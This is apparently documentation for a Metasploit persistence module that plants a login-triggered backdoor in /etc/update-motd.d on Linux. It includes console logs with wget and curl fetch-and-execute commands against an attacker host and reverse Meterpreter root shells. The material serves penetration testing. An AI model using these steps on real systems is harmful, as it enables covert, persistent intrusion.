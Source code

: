 ## Vulnerable Application

This is a post module that performs a persistence installation on a Linux system using [motd](https://manpages.debian.org/bookworm/manpages/motd.5.en.html).
To trigger the persistence execution, an external event such as a user logging in to the system with SSH is required.

## Verification Steps

1. Start msfconsole
2. Obtain a session on the target machine
3. `use exploit/linux/local/motd_persistence`
4. `set session [session]`
5. `exploit`

## Options

**BACKDOOR_NAME**

Specify the name of the file to insert in the motd directory. Defaults to `99-check-updates`

**PAYLOAD_NAME**

Name of the payload file if a `cmd` payload is not used. Defaults to a random name

## Scenarios

### Ubuntu 18.04.3

Initial access vector via web delivery

```
[*] Processing /root/.msf4/msfconsole.rc for ERB directives.
resource (/root/.msf4/msfconsole.rc)> setg verbose true
verbose => true
resource (/root/.msf4/msfconsole.rc)> setg lhost 111.111.1.111
lhost => 111.111.1.111
resource (/root/.msf4/msfconsole.rc)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set srvport 8181
srvport => 8181
resource (/root/.msf4/msfconsole.rc)> set target 7
target => 7
resource (/root/.msf4/msfconsole.rc)> set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set lport 4545
lport => 4545
resource (/root/.msf4/msfconsole.rc)> set URIPATH l
URIPATH => l
resource (/root/.msf4/msfconsole.rc)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Starting persistent handler(s)...
[*] Started reverse TCP handler on 111.111.1.111:4545 
[*] Using URL: http://111.111.1.111:8181/l
[*] Server started.
[*] Run the following command on the target machine:
wget -qO oQN8BXNV --no-check-certificate http://111.111.1.111:8181/l; chmod +x oQN8BXNV; ./oQN8BXNV& disown
[msf](Jobs:1 Agents:0) exploit(multi/script/web_delivery) > 
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.222
[*] Meterpreter session 1 opened (111.111.1.111:4545 -> 222.222.2.222:42870) at 2025-02-07 15:40:34 -0500

[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > sessions -i 1
[*] Starting interaction with 1...

(Meterpreter 1)(/tmp) > getuid
Server username: root
(Meterpreter 1)(/tmp) > sysinfo
Computer     : ubuntu18desktop.local
OS           : Ubuntu 18.04 (Linux 5.4.0-150-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
(Meterpreter 1)(/tmp) > background
[*] Backgrounding session 1...
```

Persistence

```
[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > use exploit/linux/persistence/motd 
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
[msf](Jobs:1 Agents:1) exploit(linux/persistence/motd) > exploit
[-] Msf::OptionValidateError One or more options failed to validate: SESSION.
[msf](Jobs:1 Agents:1) exploit(linux/persistence/motd) > set session 1
session => 1
[msf](Jobs:1 Agents:1) exploit(linux/persistence/motd) > exploit
[*] Command to run on remote host: curl -so ./rpNzsXNVDsZ http://111.111.1.111:8080/Hg3DGEu9GqlWD06kh4AzFg;chmod +x ./rpNzsXNVDsZ;./rpNzsXNVDsZ&
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[msf](Jobs:2 Agents:1) exploit(linux/persistence/motd) > 
[*] Fetch handler listening on 111.111.1.111:8080
[*] HTTP server started
[*] Adding resource /Hg3DGEu9GqlWD06kh4AzFg
[*] Started reverse TCP handler on 111.111.1.111:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. /etc/update-motd.d/ is writable
[*] /etc/update-motd.d/99-check-updates written
[+] Payload will be triggered at user login
[*] Meterpreter-compatible Cleaup RC file: /root/.msf4/logs/persistence/ubuntu18desktop.local_20250207.4101/ubuntu18desktop.local_20250207.4101.rc
[*] Client 222.222.2.222 requested /Hg3DGEu9GqlWD06kh4AzFg
[*] Sending payload to 222.222.2.222 (curl/7.58.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.222
[*] Meterpreter session 2 opened (111.111.1.111:4444 -> 222.222.2.222:48696) at 2025-02-07 15:41:26 -0500

[msf](Jobs:2 Agents:2) exploit(linux/persistence/motd) > sessions -i 2
[*] Starting interaction with 2...

(Meterpreter 2)(/) > getuid
Server username: root
```

### Ubuntu 22.04

```
msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > use exploit/linux/local/motd_persistence
[*] Using configured payload cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/motd_persistence) > set session -1
session => -1
msf6 exploit(linux/local/motd_persistence) > exploit

[*] /etc/update-motd.d/99-check-updates written
msf6 exploit(linux/local/motd_persistence) > 
[*] Sending stage (3045380 bytes) to 172.18.49.39
[*] Meterpreter session 2 opened (172.18.52.45:4444 -> 172.18.49.39:41848) at 2024-09-13 03:59:47 -0400
msf6 exploit(linux/local/motd_persistence) > sessions -i -1
[*] Starting interaction with 2...

meterpreter > getuid
Server username: root
meterpreter > 
```

